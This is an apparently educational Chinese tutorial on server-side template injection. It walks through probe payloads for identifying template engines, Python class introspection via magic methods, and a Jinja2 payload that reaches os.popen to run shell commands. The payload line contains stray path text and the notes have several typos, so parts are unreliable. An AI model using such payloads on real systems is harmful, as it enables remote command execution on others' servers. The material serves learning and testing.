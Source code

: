 这幅图的含义是通过这些指令去判断对方用的是什么模板，下面解释一下这幅图的意思:
绿色箭头是执行成功，红色箭头是执行失败。
首先是注入`${7\*7}`没有回显出49的情况，这种时候就是执行失败走红线，再次注入`{{7\*7}}`如果还是没有回显49就代表这里没有模板注入；如果注入`{{7＊7}}`回显了49代表执行成功，继续

往下走注入`{{7\*7}}`，如果执行成功回显7777777说明是jinja2模板，如果回显是49就说明是Twig模板。
然后回到最初注入$`{7＊7}`成功回显出49的情况，这种时候是执行成功走绿线，再次注入`a{*comment*}b`，如果执行成功回显ab，就说明是Smarty模板；如果没有回显出ab，就是执行失败走红线，注入$`{"z".join("ab")}`，如果执行成功回显出zab就说明是Mako模板。实际做题时也可以把指令都拿去测测看谁能对上。平时做题也可以多搜集不同模板对应的注入语句语法。

## 继承关系

```python
class A:pass
class B(A):pass
class C(B):pass
class D(B):pass
c=C()
print(c.__class__) #<class '__main__.C'>
print(c.__class__.__base__) #<class '__main__.B'>
print(c.__class__.base__.__base__) #<class '__main__.A'>
print(c.__class__.__mro__) #(<class '__main__.C'>, <class '__main__.B'>, <class '__main__.A'>, <class 'object'>)
print(c.__class__.__base__.__subclasses__()) #[<class '__main__.C'>, <class '__main__.D'>]
print(c.__class__.__base__.__subclasses__()[1])#<class '__main__.D'>
```

## 魔术方法

_\_class__:查看当前类型的所属对象

_\_base__:查看当前对象的父类

_\_mro__::查看当前对象的所有父类

_\_subclassses__()：查看当前父类下的所有子类

_\_subclassses__()[1]：查看当前父类下的第二个子类，0表示第一个

_\_init__:查看是否重载，重载是指程序在运行时就已经加载好了这个模块到内存中，如果出现wrapper字眼，说明没有重载

_\_globals__:返回当前对象的全部全局变量，查看可以使用的函数

_\_builtins__:提供对Python的所有内置标识符的直接访问

eval()计算字符串表达式的值

popen()：执行一个shell以运行命令来开启一个进程

```python
"".__class__.__base__.__subclasses__()[117].__init__.__globals__['__builtins__']['eval'](./././././././././././"__import__('os').popen('ls').read()")
```

117是os._wrap_close

# 4.SSTI常用注入模板利用
